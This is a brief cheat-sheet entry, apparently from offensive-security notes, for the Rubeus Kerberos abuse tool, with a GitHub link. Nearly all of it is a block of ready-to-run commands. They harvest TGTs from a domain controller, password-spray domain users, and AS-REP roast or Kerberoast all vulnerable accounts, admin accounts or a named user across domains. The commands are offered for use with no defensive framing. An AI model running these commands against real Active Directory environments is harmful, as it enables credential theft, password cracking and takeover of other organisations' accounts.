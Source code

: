 This tool is for raw Kerberos interaction and abuse.

```powershell
.\Rubeus.exe harvest /interval:30 # Harvest TGTs every 30 seconds (run on DC)
.\Rubeus.exe brute /password:Password1 /noticket # Password spray against domain users (on DC only MAYBE)
.\Rubeus.exe asreproast # AS-REP roast all asreproastable users
.\Rubeus.exe kerberoast /nowrap # Kerberoast all kerberoastable users 
.\Rubeus.exe kerberoast /stats # View relevant statistics
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap # Kerberoast users with admincount = 1
.\Rubeus.exe kerberoast /user:<username> /nowrap /domain:<domain> # Kerberoast a user (can be used cross-domain)
```

https://github.com/GhostPack/Rubeus

